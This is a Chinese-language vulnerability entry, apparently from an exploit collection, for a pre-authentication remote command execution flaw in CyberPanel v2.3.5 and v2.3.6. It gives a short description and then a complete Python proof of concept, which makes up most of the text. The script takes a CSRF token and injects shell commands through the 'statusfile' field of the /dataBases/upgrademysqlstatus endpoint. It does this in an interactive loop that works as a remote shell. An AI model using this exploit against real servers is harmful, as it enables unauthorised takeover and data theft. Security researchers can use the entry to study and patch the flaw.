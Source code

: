 # cyberpanel-v236-pre-auth-rce

>   CyberPanel是一个开源的Web控制面板，它提供了一个用户友好的界面，用于管理网站、电子邮件、数据库、FTP账户等。

## 来源

[https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce](https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce)

## 漏洞类型

远程命令执行

## 简介

CyberPanel的/dataBases/upgrademysqlstatus接口存在远程命令执行漏洞，由于该接口未做身份验证和参数过滤，未授权的攻击者可以通过此接口执行任意命令获取服务器权限，从而造成数据泄露、服务器被接管等严重的后果。

## 影响范围

-   CyberPanel v2.3.5
-   CyberPanel v2.3.6

## POC

```python
import httpx 
import sys 

def get_CSRF_token(client):
    resp = client.get("/")
    
    return resp.cookies['csrftoken']
    
def pwn(client, CSRF_token, cmd):
    headers = {
        "X-CSRFToken": CSRF_token,
        "Content-Type":"application/json",
        "Referer": str(client.base_url)
    }
    
    payload = '{"statusfile":"/dev/null; %s; #","csrftoken":"%s"}' % (cmd, CSRF_token)
    
    return client.put("/dataBases/upgrademysqlstatus", headers=headers, data=payload).json()["requestStatus"]
    
def exploit(client, cmd):
    CSRF_token = get_CSRF_token(client)
    stdout = pwn(client, CSRF_token, cmd)
    print(stdout)
    
if __name__ == "__main__":
    target = sys.argv[1]
    
    client = httpx.Client(base_url=target, verify=False)
    while True:
        cmd = input("$> ")

        exploit(client, cmd)
```




